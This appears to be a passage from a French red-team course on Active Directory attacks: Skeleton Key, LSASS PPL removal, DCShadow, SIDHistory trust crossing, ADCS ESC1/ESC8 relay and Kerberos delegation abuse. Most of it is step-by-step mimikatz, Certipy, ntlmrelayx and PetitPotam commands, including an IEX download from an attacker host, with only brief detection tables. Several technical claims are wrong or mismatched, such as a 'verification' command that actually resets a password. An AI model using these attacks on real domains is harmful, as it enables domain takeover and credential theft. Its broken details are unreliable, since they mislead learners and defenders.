### 5.5 Détection Diamond Ticket

```powershell
# Vérifier les anomalies dans les tickets
# 1. Un TGT avec une durée trop longue
# 2. Un SID supplémentaire dans le ticket
# 3. Groupe d'appartenance incohérent

# Audit Kerberos avancé
wevtutil qe "Security" /q:"*[System[(EventID=4768)]]" /c:10 /f:text
```

---

## 6. Skeleton Key (T1098)

### 6.1 Principe : injecter un backdoor dans LSASS

Le **Skeleton Key** est une technique qui injecte une clé universelle (backdoor) dans le processus LSASS (Local Security Authority Subsystem Service) sur un **Domain Controller**. Une fois injectée, **n'importe quel compte** du domaine peut être authentifié avec le mot de passe "backdoor" `mimikatz`.



### 6.2 Mimikatz misc::skeleton

#### Injection du Skeleton Key

```powershell
# Exécuter sur le Domain Controller (nécessite admin)
mimikatz.exe

# S'élever en DEBUG (nécessaire pour accéder à LSASS)
mimikatz # privilege::debug

# Injecter le Skeleton Key
mimikatz # misc::skeleton

# Sortie attendue :
# "Skeleton Key => 'mimikatz'"
```

#### Utilisation du Skeleton Key

```powershell
# Depuis n'importe quelle machine du domaine (même non jointe)
# Connexion avec n'importe quel utilisateur + mot de passe "mimikatz"

# Exemple 1 : PowerShell remoting
Enter-PSSession -ComputerName dc01 -Credential (Get-Credential redteam\administrator)
# Mot de passe : mimikatz ✓

# Exemple 2 : Connexion SMB
net use \\dc01.redteam.lab\c$ /user:redteam\administrator mimikatz

# Exemple 3 : Runas
runas /user:redteam\administrator cmd
# Mot de passe : mimikatz
```

#### Automatisation

```powershell
# Script complet
mimikatz.exe "privilege::debug" "misc::skeleton" "exit"
```

### 6.3 Limitations

| Limitation | Détail |
|-----------|--------|
| **Reboot** | Le Skeleton Key est perdu au redémarrage du DC |
| **Patch de sécurité** | MS14-068 n'est plus vuln (ancienne) |
| **Antivirus (Defender)** | Mimikatz est détecté par Windows Defender |
| **LSASS Protection** | PPL (Protected Process Light) bloque l'accès |
| **Credential Guard** | Virtual-Based Security isole LSASS |
| **Persistance** | Nulle — doit être réinjecté après reboot |
| **Traces** | Événements dans le Security log de LSASS |
| **Mise à jour** | Les mises à jour récentes limitent l'accès à LSASS |

#### Contournement de LSASS PPL

```powershell
# Si LSASS tourne en PPL (Protected Process Light)
# Nécessite un driver signé Microsoft

# Option 1 : Mimikatz avec driver mimidrv
mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "misc::skeleton"

# Option 2 : Désactiver PPL (si admin)
# Non trivial sans reboot

# Option 3 : Via un kernel exploit
# Utiliser un driver vulnérable (ex: RTCore64)
```

### 6.4 TP guidé : Skeleton Key

#### Objectif
Injecter un Skeleton Key sur le DC et vérifier que n'importe quel compte peut se connecter.

#### Étape 1 : Vérification de l'accès au DC

```bash
# Depuis Kali, vérifier que l'utilisateur courant est admin du DC
crackmapexec smb dc01.redteam.lab -u Administrator -p 'Passw0rd!'
```

#### Étape 2 : Injection du Skeleton Key (Windows RDP sur DC)

```powershell
# Connexion RDP au DC
mstsc /v:dc01.redteam.lab

# Dans une console admin sur le DC
mimikatz.exe "privilege::debug" "misc::skeleton" "exit"
```

#### Étape 3 : Validation depuis une autre machine

```powershell
# Depuis WS01 (machine non-admin du domaine)

# Test 1 : SMB
net use \\dc01.redteam.lab\c$ /user:redteam\alice mimikatz
# Résultat : La commande s'est terminée correctement.

# Test 2 : Schtaks
schtasks /query /S dc01.redteam.lab /U redteam\alice /P mimikatz

# Test 3 : PowerShell
Enter-PSSession -ComputerName dc01 -Credential (New-Object System.Management.Automation.PSCredential('redteam\bob',(ConvertTo-SecureString 'mimikatz' -AsPlainText -Force)))
```

#### Étape 4 : Vérification (optionnel)

```powershell
# Sur le DC, vérifier que l'authentification NTLM fonctionne avec mimikatz
net user /domain alice mimikatz 2>&1
# Si c'est le cas, c'est que le Skeleton Key fonctionne
```

---

## 7. DCShadow (T1207)

### 7.1 Principe : usurper l'identité d'un DC

**DCShadow** est une technique avancée qui permet d'enregistrer une machine **temporairement comme un Domain Controller** factice. Cela permet de **modifier les objets Active Directory** via les mécanismes de réplication AD, sans avoir besoin de droits d'écriture directs sur les objets.



#### Prérequis

| Prérequis | Détail |
|-----------|--------|
| **Droits** | Administrateur sur une machine jointe au domaine |
| **Compte** | Avec droits de réplication (Replicating Directory Changes) |
| **Réseau** | Accès réseau vers un DC (port 389) |
| **Durée** | Fenêtre de réplication courte |

### 7.2 Mimikatz lsadump::dcshadow

#### Injection push

```powershell
# Étape 1 : Préparer la modification
mimikatz.exe "lsadump::dcshadow /object:CN=alice,CN=Users,DC=redteam,DC=lab /attribute:memberOf /value:CN=Domain Admins,CN=Users,DC=redteam,DC=lab" exit

# Étape 2 : Pousser la modification vers le DC
mimikatz.exe "lsadump::dcshadow /push" exit

# Étape 3 : Vérifier l'ajout
net group "Domain Admins" /domain
```

#### Scénarios d'attaque DCShadow

```powershell
# 1. Ajouter un utilisateur à Domain Admins
mimikatz.exe "lsadump::dcshadow /object:CN=alice,CN=Users,DC=redteam,DC=lab /attribute:memberOf /value:CN=Domain Admins,CN=Users,DC=redteam,DC=lab" "lsadump::dcshadow /push" exit

# 2. Modifier le mot de passe d'un utilisateur
mimikatz.exe "lsadump::dcshadow /object:CN=bob,CN=Users,DC=redteam,DC=lab /attribute:unicodePwd /value:'NouveauMotDePasse123!'" "lsadump::dcshadow /push" exit

# 3. Ajouter un SPN (pour Kerberoasting)
mimikatz.exe "lsadump::dcshadow /object:CN=alice,CN=Users,DC=redteam,DC=lab /attribute:servicePrincipalName /add:HTTP/webserver.redteam.lab" "lsadump::dcshadow /push" exit

# 4. Supprimer l'attribut adminCount (cacher la protection)
mimikatz.exe "lsadump::dcshadow /object:CN=alice,CN=Users,DC=redteam,DC=lab /attribute:adminCount /value:0" "lsadump::dcshadow /push" exit
```

### 7.3 TP guidé : DCShadow pour ajouter un utilisateur à Domain Admins

#### Objectif
Depuis une machine jointe au domaine avec des droits admin local, utiliser DCShadow pour ajouter `alice` au groupe Domain Admins.

#### Étape 1 : Vérification de l'environnement

```powershell
# Sur WS01, vérifier qu'on est admin local
whoami
whoami /groups | findstr "Administrateur"

# Vérifier qu'on a les droits de réplication
# (Default: tout admin local sur une machine jointe peut hériter des droits)
```

#### Étape 2 : Préparation de l'attaque

```powershell
# Télécharger Mimikatz
IEX (New-Object Net.WebClient).DownloadString('http://kali:8080/mimikatz.exe')

# Ou exécuter directement
\\kali\tools\mimikatz.exe
```

#### Étape 3 : Exécution DCShadow

```powershell
mimikatz.exe "privilege::debug" "lsadump::dcshadow /object:CN=alice,CN=Users,DC=redteam,DC=lab /attribute:memberOf /value:CN=Domain Admins,CN=Users,DC=redteam,DC=lab" "lsadump::dcshadow /push" exit
```

#### Étape 4 : Vérification

```powershell
# Vérifier l'appartenance au groupe
net group "Domain Admins" /domain
net user alice /domain

# Vérifier l'accès
dir \\dc01.redteam.lab\c$
```

### 7.4 Détection DCShadow

| Indicateur | Description |
|------------|-------------|
| **Event ID 4742** | Compte d'ordinateur modifié (nouveau DC) |
| **Event ID 4662** | Opération sur un attribut AD |
| **Journal des services de réplication** | |
| **Nouveau DC inconnu** | Machine non autorisée enregistrée comme DC |
| **Traffic DRSUAPI** | Requête de réplication inhabituelle |
| **Lignes de base** | Comparer la liste des DCs |

#### Contre-mesures

- **Surveiller les Event ID 4662** (accès aux attributs AD)
- **Restreindre les droits de réplication** aux DCs légitimes
- **Auditer régulièrement la liste des DCs** (`nltest /dclist:redteam.lab`)
- **LAPS** pour les comptes locaux

---

## 8. Trust Attacks (T1484)

### 8.1 Comprendre les trusts AD

Les **trusts** sont des relations d'authentification entre domaines/forêts. Ils permettent aux utilisateurs d'un domaine d'accéder aux ressources d'un autre domaine.

#### Types de trusts



| Type de trust | Direction | Transitivité | SIDHistory |
|--------------|-----------|-------------|------------|
| Parent-Enfant | Bidirectionnel | Transitif | Non nécessaire |
| Forêt (Tree) | Bidirectionnel | Transitif | Possible |
| Externe | Unidirectionnel | Non-transitif | Oui (injection) |
| Forêt (Forest) | Unidirectionnel | Non-transitif | Oui (injection) |

### 8.2 SIDHistory Injection

Le **SIDHistory** est un attribut qui permet à un utilisateur d'un domaine d'avoir un ancien SID, lui donnant les droits associés à cet ancien SID. L'attaque consiste à **injecter un SID élevé** (ex: Enterprise Admins) dans le SIDHistory d'un utilisateur d'une forêt appauvrie.

#### Principe



### 8.3 Extraction des hashes inter-forest

```bash
# Sur le DC de la forêt source (redteam.lab)
impacket-secretsdump "redteam.lab"/Administrator:"Passw0rd!"@dc01.redteam.lab

# Noter le hash KRBTGT de la forêt source
# Celui-ci servira à forger un ticket avec SIDHistory

# Vérifier les trusts
impacket-getTGT "redteam.lab"/Administrator:"Passw0rd!"
impacket-trustenum "redteam.lab"/Administrator:"Passw0rd!"
```

```powershell
# Avec PowerShell
Get-ADTrust -Filter *
Get-ADObject -Filter {objectClass -eq "trustedDomain"} -Properties *
```

### 8.4 Mimikatz kerberos::golden /sid /sids

```powershell
# Forger un TGT avec SIDHistory pour traverser un trust
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-111111111-111111111-111111111 /user:Administrator /krbtgt:aaaaaabbbbbbccccccddddddeeeeeeee /sids:S-1-5-21-222222222-222222222-222222222-519 /ptt" exit

# Paramètre clé : /sids
# Format : SID de la forêt cible - RID du groupe
# Ici S-1-5-21-2222...-519 = Enterprise Admins de corp.contoso.com
```

#### Explication des SIDs

| SID | Description |
|-----|-------------|
| `/sid:S-1-5-21-111...` | SID du domaine source (redteam.lab) |
| `/sids:S-1-5-21-222...-519` | SID du groupe Enterprise Admins du domaine cible (corp.contoso.com) |
| `-512` | Domain Admins |
| `-519` | Enterprise Admins |
| `-518` | Schema Admins |

#### Récupération du SID de la forêt cible

```bash
# Depuis un compte du domaine cible
wmic useraccount get name,sid
# S-1-5-21-222222222-222222222-222222222-500

# Le SID du domaine est S-1-5-21-222222222-222222222-222222222
# (sans le -500)

# Depuis un DC du domaine cible
Get-ADDomain corp.contoso.com | Select-Object DomainSID
```

### 8.5 TP guidé : Trust Crossing avec SIDHistory

#### Objectif
Depuis la forêt `redteam.lab`, traverser le trust vers `corp.contoso.com` en injectant SIDHistory Enterprise Admins.

#### Étape 1 : Énumération du trust

```bash
# Depuis Kali
impacket-trustenum "redteam.lab"/Administrator:"Passw0rd!"@dc01.redteam.lab -dc-ip 192.168.56.10
```

```powershell
# Depuis Windows
nltest /domain_trusts /all_trusts
```

#### Étape 2 : Récupérer les SIDs

```bash
# SID de Redteam
impacket-lookupsid "redteam.lab"/Administrator:"Passw0rd!"@dc01.redteam.lab | grep "Domain SID"
# S-1-5-21-111111111-111111111-111111111
```

#### Étape 3 : Forger un Golden Ticket avec SIDHistory

```bash
# Hash KRBTGT de redteam.lab (via DCSync)
HASH="aaaaaabbbbbbccccccddddddeeeeeeee"
SID_REDTEAM="S-1-5-21-111111111-111111111-111111111"
SID_CONTOSO="S-1-5-21-222222222-222222222-222222222"
EA_RID="519"

# Via Impacket ticketer.py
ticketer.py -nthash $HASH \
    -domain-sid $SID_REDTEAM \
    -domain redteam.lab \
    -user Administrator \
    -extra-sid "${SID_CONTOSO}-${EA_RID}" \
    -groups 512,513,518,519

export KRB5CCNAME=Administrator.ccache

# Tester l'accès à la forêt cible (corp.contoso.com)
crackmapexec smb dc01.corp.contoso.com -k --use-kcache
```

#### Étape 4 : Vérification

```bash
# Si l'accès fonctionne, on peut accéder aux ressources de la forêt cible
smbclient.py -k dc01.corp.contoso.com -no-pass
ls \\dc01.corp.contoso.com\c$
```

### 8.6 Détection des Trust Attacks

| Indicateur | Détail |
|------------|--------|
| **Event ID 4768** | TGT avec SID supplémentaire (SIDHistory) |
| **Event ID 4624** | Logon avec un compte d'une forêt approuvée |
| **SIDHistory anormal** | SID de groupe élevé (519, 512) |
| **Trust Key usage** | Utilisation suspecte de la clé de trust |

---

## 9. Active Directory Certificate Services (ADCS) Abuse

### 9.1 Vue d'ensemble

ADCS est le service de certificats PKI de Microsoft. Dans de nombreuses entreprises, ADCS est mal configuré et offre plusieurs vecteurs d'attaque :



### 9.2 ESC1 — Template de certificat mal configuré

#### Conditions pour ESC1

1. Le template de certificat permet l'**enrôlement** par des utilisateurs de bas niveau
2. **`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`** activé (le demandeur peut spécifier le sujet)
3. **`ExtendedKeyUsage (EKU)`** inclut **`Client Authentication`** ou **`Any Purpose`**
4. Le template n'a pas de **`Issuance Requirements`** restrictif

#### Énumération avec Certify

```powershell
# Certify — outil C# pour énumérer ADCS
Certify.exe find /vulnerable

# Sortie typique ESC1 :
#
# [*] Certificate Template: VulnTemplate
#     CA: dc01.redteam.lab\redteam-DC01-CA
#     Enabled: True
#     Client Authentication: True
#     Enrollment Flag: INCLUDE_SYMMETRIC, PUBLISH_TO_DS, AUTO_ENROLLMENT
#     Enrollee Supplies Subject: True
#     Permissions:
#       Enrollment Rights: Domain Users
#       ...
```

#### Demande de certificat avec Certify

```powershell
# Demander un certificat pour un autre utilisateur (Domain Admin)
Certify.exe request /ca:dc01.redteam.lab\redteam-DC01-CA \
    /template:VulnTemplate \
    /altname:redteam.lab\Administrator

# Le certificat est signé par la CA et peut être utilisé pour l'authentification
# Certify affiche le certificat + la clé privée en base64

# Exporter pour utilisation
# [Certify sauvegarde certificate.pfx par défaut]
```

#### Demande avec Certipy (depuis Kali)

```bash
# Certipy — outil Python pour ADCS abuse
certipy find -u alice@redteam.lab -p 'Passw0rd!' -dc-ip 192.168.56.10 -stdout

# Demande d'un certificat ESC1
certipy req -u alice@redteam.lab -p 'Passw0rd!' \
    -ca redteam-DC01-CA -template VulnTemplate \
    -target dc01.redteam.lab \
    -upn 'administrator@redteam.lab'

# Utilisation du certificat pour obtenir un TGT
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.10

# Obtention du hash NT de l'administrateur
certipy auth -pfx administrator.pfx -domain redteam.lab -dc-ip 192.168.56.10
```

#### Mécanisme d'authentification PKINIT



### 9.3 ESC8 — NTLM Relay vers ADCS Web Enrollment

#### Principe

ADCS expose un service web (CES/Web Enrollment) sur `http://dc01.redteam.lab/certsrv/`. L'authentification NTLM est acceptée. On peut **relayer** une authentification NTLM vers ce endpoint pour obtenir un certificat signé.



#### Étapes de l'attaque

```bash
# Étape 1 : Lancer ntlmrelayx pour relayer vers ADCS
impacket-ntlmrelayx -t http://dc01.redteam.lab/certsrv/certfnsh.asp \
    -smb2support \
    --adcs \
    --template VulnTemplate

# Étape 2 : Déclencher une authentification (Responder en mode SMB)
# Depuis Kali, simuler un partage SMB piégé
sudo python3 Responder.py -I eth0 -wrf

# OU : Utiliser PetitPotam pour forcer une authentification
python3 PetitPotam.py -d redteam.lab -u alice -p Passw0rd! kali@80 dc01.redteam.lab

# Étape 3 : NTLM relay capte l'authentification et la relaie vers ADCS
# → Certificat obtenu pour le compte de la machine DC01$

# Étape 4 : Utilisation du certificat
certipy auth -pfx DC01.pfx -dc-ip 192.168.56.10
# → Hash du compte DC01$ obtenu
# → Avec le hash DC01$, on peut DCSync (si Replication Rights)
```

#### Automatisation avec PetitPotam + ntlmrelayx

```bash
# Terminal 1 : Relaying
impacket-ntlmrelayx -t http://dc01.redteam.lab/certsrv/certfnsh.asp \
    -smb2support --adcs --template VulnTemplate

# Terminal 2 : Trigger (PetitPotam)
python3 PetitPotam.py -d redteam.lab -u alice -p Passw0rd! \
    <KALI_IP> <DC01_IP>
```

### 9.4 Certipy en détail

#### Énumération complète

```bash
# Énumération avancée avec Certipy
certipy find -u alice@redteam.lab -p 'Passw0rd!' -dc-ip 192.168.56.10 \
    -enabled -vulnerable -stdout

# Sortie détaillée incluant les permissions, templates, et CA
```

#### Demande de certificat

```bash
# ESC1 : Template vulnérable
certipy req -u alice@redteam.lab -p 'Passw0rd!' \
    -ca redteam-DC01-CA -template VulnTemplate \
    -target dc01.redteam.lab \
    -upn 'administrator@redteam.lab' \
    -key-size 4096

# Options supplémentaires
# -dns : spécifier un DNS alternatif
# -sid : spécifier un SID (pour SIDHistory)
# -out : fichier de sortie
```

#### Authentification PKINIT

```bash
# Obtenir un TGT avec le certificat
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.10

# Obtenir le hash NT
certipy auth -pfx administrator.pfx -domain redteam.lab -dc-ip 192.168.56.10

# Vérifier le certificat
certipy info -pfx administrator.pfx
```

### 9.5 TP guidé : ESC1 — Devenir Domain Admin via ADCS

#### Objectif
Depuis un utilisateur standard, abuser d'un template ESC1 pour obtenir un certificat au nom d'Administrator.

#### Étape 1 : Énumération

```bash
# Énumération avec Certipy
certipy find -u alice@redteam.lab -p 'Passw0rd!' -dc-ip 192.168.56.10 -stdout

# Identifier un template vulnérable (ESC1) :
# - Enrollee Supplies Subject: True
# - Client Authentication EKU
# - Enrollment Rights: Domain Users
```

#### Étape 2 : Demande de certificat

```bash
# Demande pour Administrator
certipy req -u alice@redteam.lab -p 'Passw0rd!' \
    -ca redteam-DC01-CA \
    -template VulnTemplate \
    -target dc01.redteam.lab \
    -upn 'administrator@redteam.lab'

# Résultat attendu : administrator.pfx créé
```

#### Étape 3 : Authentification

```bash
# Extraction du hash NT
certipy auth -pfx administrator.pfx -domain redteam.lab -dc-ip 192.168.56.10

# Ou obtenir un TGT
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.10 -ldap-shell

# DCSync avec le hash Administrator
impacket-secretsdump "redteam.lab"/Administrator:<HASH>@192.168.56.10
```

### 9.6 TP guidé : ESC8 — NTLM Relay vers ADCS

#### Objectif
Relayer une authentification NTLM forcée via PetitPotam vers l'endpoint ADCS pour obtenir un certificat DC.

#### Étape 1 : Vérification ADCS

```bash
# Vérifier que /certsrv est accessible
curl -k -I https://dc01.redteam.lab/certsrv/
# Attendu : HTTP 200 ou 401
```

#### Étape 2 : Attaque NTLM Relay

```bash
# Terminal 1 : ntlmrelayx
impacket-ntlmrelayx -t http://dc01.redteam.lab/certsrv/certfnsh.asp \
    -smb2support \
    --adcs \
    --template VulnTemplate
```

#### Étape 3 : Forcer une authentification

```bash
# Terminal 2 : PetitPotam forçant DC01 à s'authentifier
python3 PetitPotam.py -d redteam.lab -u alice -p Passw0rd! \
    <KALI_IP> <DC01_IP>

# Alternative : Printer Bug
python3 printerbug.py redteam.lab/alice:Passw0rd!@dc01.redteam.lab <KALI_IP>
```

#### Étape 4 : Exploitation

```bash
# Terminal 1 reçoit le certificat DC01$.pfx

# Utilisation du certificat
certipy auth -pfx DC01$.pfx -dc-ip 192.168.56.10

# Si le hash de DC01$ est obtenu, on peut tenter DCSync
# (dépend des droits de réplication)
```

---

## 10. Kerberos Delegation Abuse (T1558)

### 10.1 Fondamentaux de la délégation Kerberos

La délégation Kerberos permet à un service de **s'authentifier auprès d'un autre service** au nom d'un utilisateur. C'est un mécanisme de "double-hop" : l'utilisateur s'authentifie sur Service A, qui agit ensuite en son nom sur Service B.



#### Types de délégation

| Type | Description | Sécurité | Détection |
|------|-------------|----------|-----------|
| **Unconstrained** | Le service reçoit le TGT de l'utilisateur | Faible | Très rare de nos jours |
| **Constrained** | Le service ne peut déléguer que vers des SPN spécifiques | Moyenne | Plus courant |
| **Resource-Based** | Le service cible définit qui peut déléguer vers lui | Bonne | Moderne (Windows 2012+) |

### 10.2 Unconstrained Delegation

#### Principe

Avec la délégation non contrainte, le service reçoit le **TGT de l'utilisateur** (via `forwardable TGT` dans le TGS). Le service peut ensuite s'authentifier **partout** au nom de l'utilisateur.

```powershell
# Énumération avec PowerView
Get-DomainComputer -Unconstrained -Properties name, userAccountControl

# Avec BloodHound
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c.name

# Avec AD module
Get-ADComputer -Filter {userAccountControl -band 524288} -Properties userAccountControl
```

#### Abus : Forcer un serveur admin à s'authentifier

```powershell
# Étape 1 : Identifier un serveur avec Unconstrained Delegation
# Étape 2 : Forcer un admin à se connecter à ce serveur
# Étape 3 : Extraire le TGT de la mémoire du serveur

# Forcer une connexion avec PrinterBug
python3 printerbug.py redteam.lab/alice:Passw0rd!@dc01.redteam.lab <SERVER_WITH_UD>

# Extraction du TGT avec Mimikatz (sur le serveur avec UD)
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit

# Les tickets exportés sont dans des fichiers *.kirbi
# Le TGT de l'admin est identifiable par :
# [0;XXXXXXX] - Client: Administrator @ REDTEAM.LAB

# Réutilisation du TGT
mimikatz.exe "kerberos::ptt <fichier.kirbi>" exit
klist
```

#### Attaque avec Rubeus

```powershell
# Sur le serveur avec Unconstrained Delegation
# Surveiller les tickets entrants (monitoring mode)
Rubeus.exe monitor /interval:5 /nowrap

# Quand un admin se connecte, Rubeus capture le TGT
# Le ticket est affiché en base64 (prêt à être utilisé)

# Réutilisation directe
Rubeus.exe asktgs /ticket:<base64_TGT> /service:cifs/dc01.redteam.lab /ptt
```

### 10.3 Constrained Delegation

#### Principe

Le service est limité : il ne peut déléguer que vers des **SPN spécifiques** (listés dans `msDS-AllowedToDelegateTo`).

```powershell
# Énumération avec PowerView
Get-DomainComputer -TrustedToAuth -Properties name, msDS-AllowedToDelegateTo

# Avec BloodHound
MATCH (c:Computer)-[:AllowedToDelegate]->(s:Computer) RETURN c.name, s.name

# Vérifier les SPN autorisés
$computer = Get-ADComputer SRV01 -Properties msDS-AllowedToDelegateTo
$computer.'msDS-AllowedToDelegateTo'
```

